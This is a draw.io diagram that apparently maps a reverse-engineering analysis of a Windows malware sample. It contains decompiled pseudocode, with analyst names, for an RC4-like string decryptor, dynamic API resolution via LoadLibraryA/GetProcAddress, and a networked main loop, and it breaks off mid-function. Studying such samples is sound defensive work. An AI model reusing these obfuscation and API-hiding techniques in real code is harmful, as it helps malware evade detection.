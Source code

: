 <mxfile version="24.8.2">
  <diagram name="Page-1" id="z8TMenJuWHfGxh3X5ceK">
    <mxGraphModel dx="8337" dy="2827" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IVjEpb5pE-T4-foRiEZy-71" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="700" y="3580" width="610" height="960" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-66" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="690" y="1620" width="770" height="1860" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-61" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-530" y="3540" width="601" height="380" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-54" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-499" y="1480" width="720" height="1890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-50" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-240" y="1170" width="560" height="180" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-46" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-2070" y="2580" width="680" height="890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-42" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-2140" y="1490" width="790" height="1030" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-44" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.25;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-33" target="IVjEpb5pE-T4-foRiEZy-42" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-57" value="Text" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="IVjEpb5pE-T4-foRiEZy-44" vertex="1" connectable="0">
          <mxGeometry x="-0.483" y="-10" relative="1" as="geometry">
            <mxPoint x="3" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.75;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-37" target="IVjEpb5pE-T4-foRiEZy-46" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-37" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-1190" y="1130" width="580" height="1690" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-24" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-350" y="560" width="480" height="430" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-18" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="1659" y="861" width="642" height="540" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-5" value="" style="group" parent="1" vertex="1" connectable="0">
          <mxGeometry x="940" y="500" width="649" height="1150" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-6" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="IVjEpb5pE-T4-foRiEZy-5" vertex="1">
          <mxGeometry width="649" height="1058.21" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-7" value="void *__thiscall sub_402510(void *this)&lt;br&gt;{&lt;br&gt;&amp;nbsp; HMODULE LibraryA; // eax&lt;br&gt;&amp;nbsp; FARPROC ProcAddress; // eax&lt;br&gt;&amp;nbsp; FARPROC v4; // eax&lt;br&gt;&amp;nbsp; FARPROC v5; // eax&lt;br&gt;&amp;nbsp; FARPROC v6; // eax&lt;br&gt;&amp;nbsp; HMODULE v8; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v9; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v10; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v11; // [esp-Ch] [ebp-10h]&lt;br&gt;&lt;br&gt;&amp;nbsp; *(_DWORD *)this = &amp;amp;off_405728;&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#47e7ff&quot;&gt;sub_402800&lt;/font&gt;(&amp;amp;unk_4070A8, 128);&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#47e7ff&quot;&gt;sub_4028A0(aYf, 13);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRf8t69mIWm, 27);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj, 16);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aDz, 119);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_0, 35);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_1, 57);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRfX0wEtbUqP3, 20);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407328, 67);&lt;br&gt;&amp;nbsp; sub_4028A0(a4zb7SNcj, 36);&lt;br&gt;&amp;nbsp; sub_4028A0(SubKey, 64);&lt;br&gt;&amp;nbsp; sub_4028A0(ValueName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(aAH, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4073E8, 31);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407408, 30);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407428, 32);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407448, 39);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D4, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D8, 5);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071E0, 9);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071EC, 15);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071FC, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(LibFileName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(ProcName, 14);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg, 19);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_1, 21);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_2, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_3, 20);&lt;/font&gt;&lt;br&gt;&amp;nbsp; LibraryA = LoadLibraryA(LibFileName);&lt;br&gt;&amp;nbsp; *((_DWORD *)this + 9) = LibraryA;&lt;br&gt;&amp;nbsp; if ( LibraryA )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 1) = GetProcAddress(LibraryA, ProcName);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; ProcAddress = GetProcAddress(*((HMODULE *)this + 9), aXg);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v8 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 2) = ProcAddress;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v4 = GetProcAddress(v8, aXg_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v9 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 3) = v4;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 4) = GetProcAddress(v9, aY);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5 = GetProcAddress(*((HMODULE *)this + 9), aY_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v10 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 5) = v5;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v6 = GetProcAddress(v10, aXg_1);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v11 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 6) = v6;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 8) = GetProcAddress(v11, aXg_2);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 7) = GetProcAddress(*((HMODULE *)this + 9), aXg_3);&lt;br&gt;&amp;nbsp; }&lt;br&gt;&amp;nbsp; return this;&lt;br&gt;}" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" parent="IVjEpb5pE-T4-foRiEZy-5" vertex="1">
          <mxGeometry x="28.86" y="53" width="500.14" height="992.55" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-16" value="&lt;h1&gt;&lt;font color=&quot;#ff8b26&quot;&gt;&lt;b&gt;Function 2: sub_402510() (initialize_library):&lt;/b&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="IVjEpb5pE-T4-foRiEZy-5" vertex="1">
          <mxGeometry x="12" y="20" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-17" value="&#xa;unsigned int __thiscall sub_4028A0(int this, int a2, unsigned int a3)&#xa;{&#xa;  int v3; // edx&#xa;  unsigned int result; // eax&#xa;  int v5; // ebp&#xa;  unsigned __int8 v6; // cl&#xa;  char v7[128]; // [esp+10h] [ebp-80h] BYREF&#xa;&#xa;  v3 = 0;&#xa;  result = 0;&#xa;  qmemcpy(v7, (const void *)(this + 40), sizeof(v7));&#xa;  v5 = 0;&#xa;  if ( a3 )&#xa;  {&#xa;    do&#xa;    {&#xa;      v3 = (v3 + 1) % 128;&#xa;      v6 = v7[v3];&#xa;      v5 = (v6 + v5) % 128;&#xa;      v7[v3] = v7[v5];&#xa;      v7[v5] = v6;&#xa;      *(_BYTE *)(result + a2) ^= v7[(v6 + (unsigned __int8)v7[v3]) % 128];&#xa;      ++result;&#xa;    }&#xa;    while ( result &lt; a3 );&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="1700" y="940" width="407" height="440" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-20" value="&lt;h1&gt;&lt;font color=&quot;#47e7ff&quot;&gt;Function 3: sub_4028A0() (process_string):&lt;/font&gt;&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1663" y="888" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-23" value="unsigned int __stdcall sub_4027A0(int a1, char *a2)&#xa;{&#xa;  unsigned int result; // eax&#xa;&#xa;  if ( a1 == 1 )&#xa;  {&#xa;    result = 0;&#xa;    strcpy(a2, aSv);&#xa;  }&#xa;  else&#xa;  {&#xa;    result = a1 - 2;&#xa;    if ( a1 == 2 )&#xa;    {&#xa;      result = strlen(aPxE77y) + 1;&#xa;      qmemcpy(a2, aPxE77y, result);&#xa;    }&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-320" y="650" width="312" height="310" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-31" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-13" target="IVjEpb5pE-T4-foRiEZy-6" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1590" y="460.0" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-13" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="221" y="180" width="549" height="940" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-37" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="170" y="672" />
              <mxPoint x="170" y="1040" />
              <mxPoint x="-225" y="1040" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-52" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-51" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-60" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-56" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="441" y="1150" />
              <mxPoint x="380" y="1150" />
              <mxPoint x="380" y="1440" />
              <mxPoint x="-17" y="1440" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-61" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="547" y="1200" />
              <mxPoint x="430" y="1200" />
              <mxPoint x="430" y="3815" />
              <mxPoint x="71" y="3815" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-66" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-75" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-71" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-3" value="&lt;h1 style=&quot;margin-top: 0px;&quot;&gt;&lt;br&gt;&lt;/h1&gt;&lt;p&gt;void __noreturn sub_401760()&lt;br&gt;{&lt;br&gt;&amp;nbsp; unsigned int v0; // eax&lt;br&gt;&amp;nbsp; void *v1; // eax&lt;br&gt;&amp;nbsp; int v2; // eax&lt;br&gt;&amp;nbsp; unsigned int v3; // esi&lt;br&gt;&amp;nbsp; HANDLE Thread; // eax&lt;br&gt;&amp;nbsp; int v5[2]; // [esp+Ch] [ebp-15E4h] BYREF&lt;br&gt;&amp;nbsp; char Buffer[64]; // [esp+14h] [ebp-15DCh] BYREF&lt;br&gt;&amp;nbsp; struct WSAData WSAData; // [esp+54h] [ebp-159Ch] BYREF&lt;br&gt;&amp;nbsp; _BYTE v8[1024]; // [esp+1E4h] [ebp-140Ch] BYREF&lt;br&gt;&amp;nbsp; char v9[1024]; // [esp+5E4h] [ebp-100Ch] BYREF&lt;br&gt;&amp;nbsp; char v10[1024]; // [esp+9E4h] [ebp-C0Ch] BYREF&lt;br&gt;&amp;nbsp; char v11[2056]; // [esp+DE4h] [ebp-80Ch] BYREF&lt;br&gt;&amp;nbsp; int v12; // [esp+15ECh] [ebp-4h]&lt;br&gt;&lt;br&gt;&amp;nbsp; WSAStartup(0x202u, &amp;amp;WSAData);&lt;br&gt;&amp;nbsp; v0 = time(0);&lt;br&gt;&amp;nbsp; srand(v0);&lt;br&gt;&amp;nbsp; v1 = operator new(0xA8u);&lt;br&gt;&amp;nbsp; v5[1] = (int)v1;&lt;br&gt;&amp;nbsp; v12 = 0;&lt;br&gt;&amp;nbsp; if ( v1 )&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = &lt;font color=&quot;#ff8b26&quot;&gt;sub_402510&lt;/font&gt;(v1);&lt;font color=&quot;#ff8b26&quot;&gt; // (initialize_library)&lt;/font&gt;&lt;br&gt;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = 0;&lt;br&gt;&amp;nbsp; v12 = -1;&lt;br&gt;&amp;nbsp; dword_4075BC = v2;&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#baff42&quot;&gt;sub_4027A0&lt;/font&gt;(1, &amp;amp;unk_4075C0); // &lt;font color=&quot;#b6ff24&quot;&gt;// (copy_string)&lt;/font&gt;&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#9cff63&quot;&gt;sub_4027A0&lt;/font&gt;(2, byte_4075E0);&lt;br&gt;&amp;nbsp; while ( 1 )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v10, 0, sizeof(v10));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v8, 0, sizeof(v8));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v11, 0, 